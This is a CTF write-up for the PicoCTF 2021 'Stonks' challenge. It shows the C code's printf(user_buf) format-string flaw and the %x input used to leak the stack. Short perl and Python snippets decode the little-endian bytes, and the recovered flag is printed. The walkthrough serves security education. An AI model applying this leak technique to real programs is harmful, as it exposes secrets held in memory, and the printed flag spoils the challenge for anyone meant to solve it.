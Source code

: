 # Stonks
This challenge was part of the PicoCTF 2021 and was part of the Binary Exploitation genre. It was very fun to solve.
Let's start with the examination.

## Examination
After reading a bit of the code we can detect a Format String vulnerability.
The interesting function in this program is <span style="color: lime;"><b>buy_stonks</b></span>.



<pre><code>int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
    <b style="color:green;">char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");</b>
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	<b style="color:green;">fgets(api_buf, FLAG_BUFFER, f);</b>

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	<b style="color:green;">scanf("%300s", user_buf);</b>
	printf("Buying stonks with token:\n");
	<b style="color:green;">printf(user_buf);</b>

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}</code></pre>

The fact that there is a variable called api_buf that stores the flag's contents and is on the stack, alerts us that it might be possible to use some kind of leaking technique, to get the actual flag.
As we can see from the picture above, the program reads the contents of the flag from a file called api. The program asks us to enter some input (maximum of 300 bytes) and then prints it using printf() function from libc. A clear Format-String Vulnerability.

We will enter lots of %xs to leak the flag value on the stack.


![Input example](./input_example.png)

Now, this might look like gibrish to us. But all of these values are hexadecimal values, and some of them incoorapte to ascii values. To convert these values to ascii values, we will use the following technique.
```sh
echo -n {your-hexadecimal-values} | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```
Source of this method [here](https://stackoverflow.com/questions/1604765/how-to-convert-hex-to-ascii-characters-in-the-linux-shell#7681385).

This is the output of the above command:
<pre><code>���H�?���������p��9     !c�<b style="color:green;">ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�</b>�*���T@~�~4Ο�
                                                                                �\���#�~%h������2D�����p��~ ��2x���P����~����2x�H�i!A`��2d��2x�H���?���3,��3$����2��ݯ���p��p}����3$��3,��2���p���
�M�_��P�0������b�H�Q��3$�H�0���`��3��)@�����></code></pre>

Now, the output still looks not so familiar to the human eye. This is because of two reasons:
1. The addresses of this binary are stored in little-endian (and we know that this is a 32-bit binary, by the length of the addresses).
2. We are leaking a lot of addresses from the stack. Lots of them don't have any connection to ascii values.

We will need to identify the exact values of the flag. We can do that by looking at the ascii table and determine what is the value of the letter 'o', which is the start of the little-endian flag that we are looking for. The ascii value is <span style="color: lime;"><b>6f</b></span>. We can confidently delete all the values up until this value. Little-endian means that the addresses are reversed. Every 4 bytes. "pico" is the first 4 bytes of our flag and that is why the letter "o" will be the first letter of it in little-endian.
After we do this, we can copy the entire flag up until the character "}", and place it in a python program inside a variable. The following python code will help us in reversing the entire flag to be in big-endian and thus be readable for us:

```python
if __name__ == '__main__':
    message = 'ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�'
    new_message = ""
    count = 0
    part_message = ""
    for _ in message:
        part_message += _
        count += 1
        if count == 4:
            new_message += "".join((list(reversed(part_message))))
            count = 0
            part_message = ""
    print(new_message)
```

After this function, we may take the output and delete all the <span style="color: lime;"><b>�</b></span> characters.
The more elegant and maybe better way to do this operation would be to use RegEx.

**We have the flag!**